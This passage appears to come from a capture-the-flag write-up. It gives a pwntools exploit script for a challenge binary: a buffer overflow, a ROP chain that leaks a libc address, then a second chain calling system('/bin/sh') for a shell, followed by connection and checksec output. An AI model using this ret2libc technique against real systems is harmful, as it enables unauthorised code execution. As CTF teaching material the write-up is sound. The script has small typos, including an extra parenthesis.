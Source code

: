 ```python

log.info("Puts@plt: " + hex(PUTS_PLT))
log.info("Puts@glt : " + hex(PUTS_GOT))
log.info("Pop rdi gadget: " + hex(POP_RDI))
log.info("rdi: " + hex(RET))

#Overflow buffer until return address
OFFSET = ("A"*40).encode() #+ "B"*8

# Create rop chain
payload1 = OFFSET 
payload1 += p64(POP_RDI) 
payload1 += p64(PUTS_GOT) 
payload1 += p64(PUTS_PLT) 
payload1 += p64(MAIN)

#Send our rop-chain payload
p.recvuntil("How will you respond? ")

p.sendline(payload1)

#Parse leaked address
recieved = p.recvline().strip()
leak =  u64(recieved.ljust(8,b"\x00"))
log.info("Leaked libc address, Puts: %s" % hex(leak))

libc.address = leak - libc.sym["puts"]
log.info("Base address of libc: %s " % hex(libc.address))

BINSH = next(libc.search("/bin/sh")) 
SYSTEM = libc.sym["system"]

log.info("bin/sh: %s " % hex(BINSH))
log.info("system: %s " % hex(SYSTEM))

payload2 = OFFSET 
payload2 += p64(RET) 
payload2 += p64(POP_RDI) 
payload2 += p64(BINSH) 
payload2 += p64(SYSTEM)

p.recvuntil("How will you respond? "))

p.sendline(payload2)

p.interactive()
```
**Output: -**

```python
❯ python exploit.py
[+] Opening connection to cha.hackpack.club on port 41702: Done
[*] '/home/gr4n173/climb'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/gr4n173/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
